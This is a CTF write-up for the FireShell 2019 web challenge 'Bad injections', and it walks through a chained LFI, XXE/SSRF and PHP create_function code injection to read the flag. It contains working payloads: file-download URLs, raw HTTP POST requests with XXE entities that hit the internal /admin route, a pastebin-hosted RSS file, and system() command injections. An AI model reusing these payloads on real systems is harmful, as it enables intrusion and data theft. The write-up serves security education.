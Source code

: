 ```yaml
---
layout: post
title: Bad injections
category: FireShell 2019
---
```


Hello guys , i would like to share with you my solution for this web task 

So this task based on 3 parts (LFI->XXE->RCE) each part will allow us to move to the next stage until we get the FLAG

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/51808143-62d0d900-2290-11e9-8aad-448c7c976a17.png"></p>

By accessing to the task url we can see menu with some actions 

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/51808175-b7745400-2290-11e9-9b71-3af24350703d.png"></p>

When we look at the html source code we can notice link to download this files 

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/51808189-e8548900-2290-11e9-9368-dd439db8a359.png"></p>

So each file can be downloaded using this url schema

http://68.183.31.62:94/download?file=files/1.jpg&hash=7e2becd243552b441738ebc6f2d84297

```
1-file : will be the file location  
2-hash : for now its md5 hash (we do not know how this hash generated )
```

By doing some recon stuff and trying to get more informations about this task , nothing look important for us (only download link )

I tried to exploit it using hash length attack but no chance (not part of this challenge)

Then notice that :

```
md5($_GET('hash')) == $_GET('file')
```

which means for now we can load any file we want ( if we know location of course ) **PART1**

As there is 2 files on the web app , we tried to check the second one 

http://68.183.31.62:94/download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

Download this file we got this 

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/51808272-15ee0200-2292-11e9-9956-e62fa534ef81.png"></p>

Ok look like there is something for us 

`
<b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
`

Using first part we can read this file

![download_lfi](https://user-images.githubusercontent.com/7364615/51808298-67968c80-2292-11e9-9b30-8ebcdd05b85e.png)

Here we can now its the file used to download in part1

By digging more we start read more files , moving to index.php file 

![index](https://user-images.githubusercontent.com/7364615/51808648-daa20200-2296-11e9-977c-4ac60cac2cb9.png)

We know for now that we have many other folders (Controllers / Views / Classes / files)

But also there is file named "Routes.php" in index.php that can help us to move on

By reading this file we find all routes and also what we need to do next (stage 2 )

![routes_xxe_rce_admin](https://user-images.githubusercontent.com/7364615/51808356-1d61db00-2293-11e9-816b-70ff45f0f558.png)

The two important part : (/custom & /admin) , lets read them (Custom.php & Admin.php )

![custom_xxe](https://user-images.githubusercontent.com/7364615/51808369-4bdfb600-2293-11e9-95d0-f919afd1edd1.png)

from the first look we confirm we have XXE on **/custom** route

![xxe](https://user-images.githubusercontent.com/7364615/51808420-cdcfdf00-2293-11e9-8656-8d9831440769.png)


OK here we can said why we don't migrate from XXE->RCE , but no we can't because wrappers like "expect" disabled on the server side so we can only read files or exploit SSRF to request internal app **PART2**

OK! lets move to Admin.php code 

![admin_rce](https://user-images.githubusercontent.com/7364615/51808427-e4763600-2293-11e9-936b-01aec33e7c84.png)

Ugly code, but we need to understand it 
So here this code :

```
1-wait two arguments ($url & $order) ==> $url should be xml file
2-Read xml file (RSS) and try to load it on $data array
3-Then usort this array using new function (creeat_function) witch use our $order argument to compare two rows
4-Print back custom html code 
```

By reading this code we confirm we have RCE (create_function can be used to injection php code ) **PART3**

because create_function is an eval call which does the following :

```
function create_function($args, $code) {
  eval("
    function lambda_1 ($args) { $code }
  ");
  return 'lambda_1';
}
```

But wait !! we forget the routes part ! 

```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
});
```

We can only call sort function (where we have create_function ) only if we request /admin from local 

Yes we can :D , we already have XXE which means we can make this possible by exploit SSRF vuln and load /admin route from there :)

We prepare simple rss file to be parsed as **/admin** route request 2 arguments on of them should be XML file

```
<?xml version="1.0" encoding="UTF-8" ?>
<rss>
<channel>
  <item>
    <link>/xml/xml_rss.asp</link>
  </item>
  <item>
    <link>/xml</link>
  </item>
</channel>
</rss>
```

we can simply host this content on https://pastebin.com/ 

Then next step we just need to prepare the XXE payload 

```
link,$b->link); } system("ls /"); //
```

```
POST /custom HTTP/1.1
Host: 68.183.31.62:94
Content-Type: application/x-www-form-urlencoded
Content-Length: 412

<!DOCTYPE foo [
<!ELEMENT foo ANY><!ENTITY out SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1/admin?rss=https://pastebin.com/*****&order=link%2C%24b-%3Elink%29%3B%20%7D%20system%28%22ls%20%2F%22%29%3B%20%2F%2F">]>
<root><name>&out;</name></root>
```

Using this one we get that there is flag file **/da0f72d5d79169971b62a479c34198e7** , so we change our payload . 

Final payload for the code injection 

```
link,$b->link); } system("cat /da0f72d5d79169971b62a479c34198e7"); //
```

```
POST /custom HTTP/1.1
Host: 68.183.31.62:94
Content-Type: application/x-www-form-urlencoded
Content-Length: 412

<!DOCTYPE foo [
<!ELEMENT foo ANY><!ENTITY out SYSTEM "php://filter/convert.base64-encode/resource=http://127.0.0.1/admin?rss=https://pastebin.com/*****&order=link%2C%24b%3Elink%29%3B%20%7D%20system%28%22cat%20%2Fda0f72d5d79169971b62a479c34198e7%22%29%3B%20%2F%2F">]>
<root><name>&out;</name></root>
```

And Yes we got our FLAG :

```
f#{1_d0nt_kn0w_wh4t_i4m_d01ng}
```
